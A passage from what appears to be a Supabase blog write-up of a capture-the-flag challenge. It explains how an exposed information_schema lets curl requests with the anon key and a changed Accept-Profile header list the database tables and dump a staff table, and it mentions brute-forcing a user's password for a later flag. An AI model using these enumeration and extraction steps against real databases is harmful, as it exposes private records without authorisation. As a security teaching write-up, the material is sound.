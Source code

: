 If you had got this far, you may have noticed an error message when querying the PostGREST API of the project. We can change the schema we are querying via the “Accept-Profile” header, when changing this to a schema that hasn’t been exposed to the API or doesn’t exist, we would be presented with an error message.

`
curl 'https://ubssibzsnwtwbbvbhbvb.supabase.co/rest/v1/bulletins?select=*' \
 -H 'accept-profile: other_schema' \
 -H "apikey: $ANON_KEY" \
 -H "authorization: Bearer $ANON_KEY"
`

“The schema must be one of the following: public, information\_schema, storage”

It would appear that the information\_schema schema is exposed on this project. Information schemas, you should be aware, are a really bad thing to expose publicly. This is where all of the information about our database can be queried, including tables, and roles.

Lets check out the tables table in the information schema, specifically the tables in the public schema. To do this we modify our cURL command like this, noting the changes to the accept-profile header, and the parameters in the url:

`
curl 'https://ubssibzsnwtwbbvbhbvb.supabase.co/rest/v1/tables?select=table_name,table_schema&table_schema=eq.public' \
 -H 'accept-profile: information_schema' \
 -H "apikey: $ANON_KEY" \
 -H "authorization: Bearer $ANON_KEY"
`

This returns a JSON array that containing all the table names in the public schema:

`[{"table_name": "bulletins","table_schema":"public"}, {"table_name":"staff","table_schema":"public"}, {"table_name":"staff_only","table_schema":"public"}]`

The bulletins table we already knew about, but staff and staff\_only are new to us. The staff\_only table will be relevant for the next flag, here we are interested in the staff table.

We are almost there, and now that we understand how to query the schema with our cURL commands, its as simple as updating our request to query the staff table in the public schema:

`
curl 'https://ubssibzsnwtwbbvbhbvb.supabase.co/rest/v1/staff' \
-H 'accept-profile: public' \
-H "apikey: $ANON_KEY" \
-H "authorization: Bearer $ANON_KEY"
`

This will return the full contents of the staff table, which includes our first intermediate flag!

### **weak password** [\#](https://supabase.com/blog/how-to-hack-the-base\#weak-password)

This was the last flag to be found. Despite the clues I had placed throughout the site, no one chose to try to brute force the password of [herbert.west@miskatonicuniversity.us](mailto:herbert.west@miskatonicuniversity.us). This can be attributed to my failure to anticipate the honesty of our hackers who fairly thought that a dictionary attack would have been considered a Denial of Service technique.
